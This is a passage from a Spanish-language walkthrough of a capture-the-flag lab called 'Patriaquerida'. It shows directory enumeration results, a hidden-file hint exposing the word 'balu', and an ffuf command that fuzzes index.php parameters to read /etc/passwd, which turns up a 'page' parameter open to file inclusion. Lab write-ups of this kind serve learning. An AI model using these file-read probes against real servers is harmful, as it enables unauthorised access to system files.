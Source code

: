 ```
/.htaccess            (Status: 403) [Size: 275]
/.htpasswd.html       (Status: 403) [Size: 275]
/.htpasswd.php        (Status: 403) [Size: 275]
/.htpasswd.txt        (Status: 403) [Size: 275]
/index.html           (Status: 200) [Size: 10918]
/index.php            (Status: 200) [Size: 110]
/server-status        (Status: 403) [Size: 275]
Progress: 81876 / 81880 (100.00%)
===============================================================
Finished
===============================================================
```

Vemos un `index.php` por lo que entraremos a el y veremos el siguiente mensaje:

```
Bienvenido al servidor CTF Patriaquerida.¡No olvides revisar el archivo oculto en /var/www/html/.hidden_pass!
```

Por lo que podemos deducir que en la `URL` tendremos que poner lo siguiente:

```
URL = http://<IP>/.hidden_pass
```

Vemos solamente la palabra `balu`.

Por lo que vamos a ver si tiene algun parametro vulnerable el `index.php` del la siguiente forma:

## Escalate user pinguino

### FFUF

```shell
ffuf -u http://<IP>/index.php?FUZZ=/etc/passwd -w <WORDLIST> -fs 110
```

Info:

```

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://172.17.0.2/index.php?FUZZ=/etc/passwd
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/big.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 110
________________________________________________

page                    [Status: 200, Size: 1367, Words: 11, Lines: 27, Duration: 0ms]
:: Progress: [20469/20469] :: Job [1/1] :: 83 req/sec :: Duration: [0:00:04] :: Errors: 0 ::
```
